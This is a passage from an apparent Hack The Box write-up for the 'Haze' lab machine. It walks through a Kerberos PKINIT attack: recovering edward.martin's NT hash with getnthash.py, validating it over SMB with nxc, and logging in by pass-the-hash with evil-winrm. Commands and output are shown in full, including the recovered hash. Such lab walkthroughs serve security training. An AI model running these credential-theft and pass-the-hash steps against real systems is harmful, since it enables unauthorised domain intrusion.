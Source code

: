 The `KRB5CCNAME` variable was created and exported to tell Kerberos tools on Kali where to read the Kerberos credential cache file. 
`klist` was run and confirmed that a TGT was issued to user Edward Martin.
```
(venv_pkinit)fcoomans@kali:~/htb/haze$ export KRB5CCNAME=/home/fcoomans/htb/haze/emartin.ccache

(venv_pkinit)fcoomans@kali:~/htb/haze$ klist
Ticket cache: FILE:/home/fcoomans/htb/haze/emartin.ccache
Default principal: edward.martin@HAZE.HTB

Valid starting       Expires              Service principal
06/28/2025 20:33:59  06/29/2025 06:33:59  krbtgt/HAZE.HTB@HAZE.HTB
```

`getnthash` used the the AS-REP encryption key from the `gettgtpkinit.py` output above to get the NTLM hash for `edward.martin`.
```
(venv_pkinit)fcoomans@kali:~/htb/haze$ python PKINITtools/getnthash.py -key 'd94ab1745df9c36f664182dc7cbd170d6c59e96b00a3a0c2446fff96bb364a02' -dc-ip 10.10.11.61 'haze.htb/edward.martin'
/home/fcoomans/htb/haze/PKINITtools/venv_pkinit/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2e7a6b0d419e9ff8f4d91af

(venv_pkinit)fcoomans@kali:~/htb/haze$ deactivate
```

`nxc` was used to confirm the validity of the NTLM hash.
```
fcoomans@kali:~/htb/haze$ nxc smb dc01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

The NTLM hash was used to log into the target as user `edward.martin` using `evil-winrm`.
```
fcoomans@kali:~/htb/haze$ evil-winrm -i dc01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
*Evil-WinRM* PS C:\Users\edward.martin\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:
```
